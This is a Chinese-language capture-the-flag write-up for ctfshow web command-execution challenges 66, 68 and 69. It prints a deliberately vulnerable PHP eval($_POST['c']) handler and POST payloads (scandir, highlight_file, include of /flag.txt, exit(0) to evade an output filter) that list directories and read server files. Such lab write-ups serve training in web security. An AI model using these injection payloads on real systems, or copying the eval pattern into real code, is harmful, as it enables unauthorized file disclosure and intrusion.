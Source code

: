 # ctfshow-web命令执行(web61-77;118-124)
[toc]

## web66 print\_r(scandir())与highlight\_file()
**题目描述**

```Plain Text
show_source('flag.php');
该语句被过滤
```
**题解**

POST传入c=print\_r(scandir('/'));

获得目录

```Plain Text
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => dev [5] => etc [6] => flag.txt [7] => home [8] => lib [9] => media [10] => mnt [11] => opt [12] => proc [13] => root [14] => run [15] => sbin [16] => srv [17] => sys [18] => tmp [19] => usr [20] => var ) 
```
得知flag在flag.txt文件中

传入c=highlight\_file('flag.txt');可得flag(highlight函数可以显示文件得全部)

---
## web68 include
**题目描述**

```Plain Text
禁用highlight_file()
```
**解**

尝试include('/index.php'),提示传入的参数长度过大

尝试include('/flag.txt'),得到flag

---
## web69 exit()
```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
你要上天吗？
```
传入c=include('/flag.txt');

获得

```php
???????: ?????_?????????() ??? ???? ???????? ??? ???????? ??????? ?? /???/???/????/?????.??? ?? ???? ?? ???????: ???_???() ??? ???? ???????? ??? ???????? ??????? ?? /???/???/????/?????.??? ?? ???? ?? ???????{????????-????-????-????-????????????} 你要上天吗？ 
```
flag被过滤

因此使用exit()函数让它停下

```php
payload:c=include('/flag.txt');exit(0);
```
得到flag



